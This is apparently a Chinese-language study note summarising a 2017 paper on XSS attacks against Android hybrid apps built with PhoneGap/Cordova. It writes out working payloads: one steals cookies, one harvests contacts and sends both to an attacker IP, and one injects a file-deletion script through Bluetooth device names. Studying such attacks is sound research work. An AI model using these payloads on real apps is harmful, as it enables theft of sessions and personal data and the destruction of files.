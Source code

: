 ```yaml
---
title: Cross-site Scripting Attacks on Android Hybrid Applications
tags: [Meeting Paper, NTU]

category: "Survey Papers/Android + Security"
---
```


# Cross-site Scripting Attacks on Android Hybrid Applications
:::info
Bao, W., Yao, W., Zong, M., & Wang, D. (2017, March). Cross-site scripting attacks on android hybrid applications. In Proceedings of the 2017 International Conference on Cryptography, Security and Privacy (pp. 56-61).
:::

這一篇論文雖然很舊了，但還是蠻有趣的

## Introduction
他在講的是現在市面上的App通常會用一些像是Apache Cordova(早期叫做PhoneGap)這類型的Hybrid框架製作一款App，但是PhoneGap的做法是利用WebView渲染畫面，因此就勢必會出現XSS相關的攻擊，這一篇論文就是在探討如何達成攻擊，以及受害範圍有多廣
* Gartner 的一份報告稱，Hybrid App在基於 HTML5 的 Web  App和本機 App之間提供了平衡，到 2016 年，將在超過 50% 的行動 App中使用
* 為了美化 UI 並在 JavaScript 程式碼中使用行動裝置的原生功能，Hybrid App必須包含第三方元件，而且它們的程式碼可能不可靠。
* 在本文的其餘部分，我們首先對WebView和PhoneGap框架的漏洞進行深入分析。 然後根據我們日常生活中行動應用的使用場景，建立了XSS攻擊混合應用的一般流程。 攻擊結果表明，對Hybrid App的 XSS 攻擊可能會對使用者的行動裝置造成更大的破壞性結果。

## Background
* What is PhoneGap?
    ![圖片](https://hackmd.io/_uploads/rJsdoZWX0.png)
    上圖顯示了PhoneGap App的架構以及如何和device component互動，當Hybrid App的某個功能需要使用 PhoneGap API 時， App可以使用 JavaScript 程式碼呼叫 API，然後 App中的特殊層將 PhoneGap API 呼叫轉換為適合幕後特定功能的device API。

## Proposed Method
* How XSS attack success on PhoneGap's App?
    ![圖片](https://hackmd.io/_uploads/SyPtsW-7R.png)
    有兩種方是可以達成這個攻擊
    * 首先從上圖可以知道，外部的資料有很多種型態，可能是一般文字、QRcode、藍牙等等媒介，而當傳送的資料出現malicious code的時候，PhoneGap Interface的App就會接收這些有問題的資料，並且直接被WebView所render，此時attacker就可以直接根據傳送的payload達到竊取機敏資料的目的
        > 在使用者的幫助下注入程式碼。 當使用者開啟將行動裝置連接到外界的通道時，將提供存取權限以允許來自另一個裝置的攻擊。 惡意程式碼是透過在不知不覺中與另一個裝置互動來注入的，然後按照與第一個裝置類似的流程來實現攻擊。
    * 另外一種則是直接嵌入有問題的code在網頁中，等到使用者瀏覽這個網頁的時候就會被PhoneGap的WebView所Render，達成和上面一樣的效果，類似傳統的攻擊，受害範圍則是cookies, session hijacking, location leaking...，用的function是`document.cookie`, `write()`, `appendChilld()`, `script` tag

## Experiment
作者提到，為了分析一些可能受到XSS攻擊的應用場景，這些 App都是使用PhoneGap框架開發的混合 App。 由於Google Play提供的大部分PhoneGap App要麼沒有使用某些存在漏洞的PhoneGap插件，要麼不顯示攻擊效果，因此很難使用真實的 App進行演示。 因此，他們demo了對他們自己的PhoneGap App的攻擊

### Cookie Stealing and Session Hijacking
作者把malicious code插在簡單的comment management system中，這個App是PhoneGap Framework做的，而且有storage XSS漏洞。如果這個 App是基於native language的，那麼JavaScript code將永遠不會被執行。 但是，在此 PhoneGap  App中，如果 App使用任何易受攻擊的 API 來顯示評論，則程式碼將在 WebView 內執行。
![圖片1](https://hackmd.io/_uploads/SJ6ehb-mR.png)
* 左邊的圖片:
    ```javascript!
    <script>alert(document.cookie)</script>
    ```
    網頁沒有任何異常情況下，作者只使用"append()" API為網頁新增註解。 透過JQuery API顯示評論字段，然後同時觸發注入的程式碼。 顯然，"append()" API 並不安全。 "innerHTML" API 比"append()"更安全，並且不會運行"script"標籤內的程式碼，因此作者可以使用"innerHTML" API 來替換。
* 中間的圖片:
    這就是用替換成innerHTML的結果，會發現這次的攻擊就沒有成功
* 右邊的圖片:
    ```javascript!
    <img src=x onerror= "alert(document.cookie )">
    ```
    但我們還是可以改變payload，讓攻擊可以成功，也就是用上述提到的第二列payload，結果就會如最右邊的截圖
---
當然我們也可以嘗試把得到的敏感資訊透過第三個payload傳出去給attacker，得到的response如下
```javascript!
<img src=x onerror= "new Image().src='http://10.103.30.97:80/cookies/attacker.php?cookie='%2bdocument.cookie">
```
![圖片](https://hackmd.io/_uploads/HJ9W2WZmC.png)
Attacker's Server Receive:
```!
http://10.103.30.97/cookies/manage.php?name=Admin&token=e3afed0047b08059d0fada10f400c1e5
```

### Steal Contact Data
這次攻擊的標的是QRcode，我們可以把惡意的code嵌入在QRcode當中，如果有利用PhoneGap的App掃描到這個QRcode，因為他是在WebView中進行render，所以這個malicious code會被triggered，這個App使用的是`phonegap-plugin-barcodescanner`這個plugin，當程式碼顯示時，`img`的`onerror`事件將會被觸發，然後使用者的聯絡資料將會傳送給攻擊者。
* Attack Pattern
    ```javascript!
    <img src=x onerror=
        "navigator.contacts.find(['displayName','phoneNumbers'],
        function(c){
        r='';
            for(i=0;c[i];i++){
                if(c[i].phoneNumbers&&c[i].phoneNumbers.length){
                    r+=c[i].displayName+c[i].phoneNumbers[0].value+'\n';
            }}
            alert(r);
        new Image().src='http://10.103.30.97/c.php?d='+r; })" >
    ```
如果是用Native Language寫的App就會如左邊的圖片那樣只有顯示這個QRcode儲存的資訊，但如果是用PhoneGap寫的App，經過WebView render出來的結果，就會顯示手機的聯絡人資訊。他是用`navigator.contacts.find`這個API去呼叫PhoneGap的聯絡人plugin的Java code來搜尋使用者的聯絡人
![圖片2](https://hackmd.io/_uploads/B158hZWmR.png)

### Delete Files
這一次換成利用藍牙這個標的達成攻擊，原文提到: 
> 一般來說，如果一個應用程式具有藍牙傳輸功能，它必須能夠讀取和寫入用戶行動裝置上的文件

為了demo攻擊的效果，作者使用`cordova-plugin-bluetooth-serial`插件和`cordova-plugin-file`插件開發了一個PhoneGap應用程式。藍牙裝置的名稱是透過`innerHTML`API顯示的，安全性不夠，攻擊者可以將藍牙裝置的名稱更改為惡意程式碼來實現攻擊。 並且與前兩種設計類似的是再次使用了`onerror`事件。
* Attack Pattern
    ```javascript!
    <img src=x onerror=
        "window.requestFileSystem(LocalFileSystem.PERSISTENT,0
        ,function(f){
            f.root.getDirectory('ID_5',null,
                function (e){
                    e.removeRecursively(
                        function(){
                            alert('Delete ID_5 Success!')
                    },null); },null); },null);">
    ```

同樣的如果用native app進行連線，就不會遇到攻擊的問題(如左圖)，但如果是用右圖的PhoneGap設計的App，`window.requestFileSystem()`要求系統存取根檔案系統並傳回一個對象，該物件儲存在`FileSystem`變數f中。 它的 root 屬性包含一個`DirectoryEntry`對象，表示目前檔案系統的根目錄。 所以我們使用`f.root.getDirectory()`來搜尋根目錄中的`ID_5`目錄。 當找到目錄時，將回傳值儲存在`DirectEntry`物件e中，並呼叫第5行至第9行中的回呼函數。 然後`ID_5`目錄的`DirectEntry`物件呼叫其名為`removeRecurively()`的方法來刪除`ID_5`中的所有檔案。 第8行，右圖顯示指定目錄刪除成功的通知。 
![圖片3](https://hackmd.io/_uploads/rkNt3--mR.png)
